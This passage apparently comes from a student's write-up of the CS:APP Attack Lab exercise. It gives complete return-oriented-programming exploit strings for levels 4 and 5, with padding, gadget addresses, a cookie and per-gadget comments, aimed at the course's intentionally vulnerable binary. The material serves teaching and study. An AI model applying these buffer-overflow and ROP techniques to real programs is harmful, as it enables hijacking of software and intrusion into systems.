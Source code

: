 ```
00 00 00 00 00 00 00 00  /* padding */
00 00 00 00 00 00 00 00  /* padding */
00 00 00 00 00 00 00 00  /* padding */
00 00 00 00 00 00 00 00  /* padding */
00 00 00 00 00 00 00 00  /* padding */
ab 19 40 00 00 00 00 00  /* gadget 1 */
fa 97 b9 59 00 00 00 00  /* value to be popped into %rax */
a2 19 40 00 00 00 00 00  /* gadget 2 */
ec 17 40 00 00 00 00 00  /* address of touch2 */
```

-----------------------------------------------
# Level 5:

Level 5 is the boss in this lab. We need to reformulate the level attack using return oriented programming. 

The hard part is that we need pass a relative position to `%rsp` to `%rdi` to formulate the attack, without any existing code pieces to move value from `%rsp` to `%rdi`. It requires a combination of time, luck and instinct to find all those gadgets to achieve the effect equivalent to `movl $0x40(%rsp), %rdi` (we will see why it is 0x40). It took me a total of 7 gadgets to do this attack. I post my exploit string below with the code comment excluding the `retq`. I'll leave it to the reader to verify this does do the work.

```
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
06 1a 40 00 00 00 00 00 /* gadget 1: movq %rsp, %rax */
a2 19 40 00 00 00 00 00 /* gadget 2: movq %rax, %rdi */
b9 19 40 00 00 00 00 00 /* gadget 3: popq %rax; xchg %eax, %edx */
40 00 00 00 00 00 00 00 /* gap between gadget 1 and cookie */
69 1a 40 00 00 00 00 00 /* gadget 4: movq %edx, %ecx; or bl, bl */
13 1a 40 00 00 00 00 00 /* gadget 5: movq %ecx, %esi */
d6 19 40 00 00 00 00 00 /* gadget 6: lea (%rdi, %rsi, 1), rax */
a2 19 40 00 00 00 00 00 /* gadget 7: movq %rax, %rdi */
fa 18 40 00 00 00 00 00 /* return address of touch3 */
35 39 62 39 39 37 66 61 /* cookie */
```

This concludes my post on attack lab.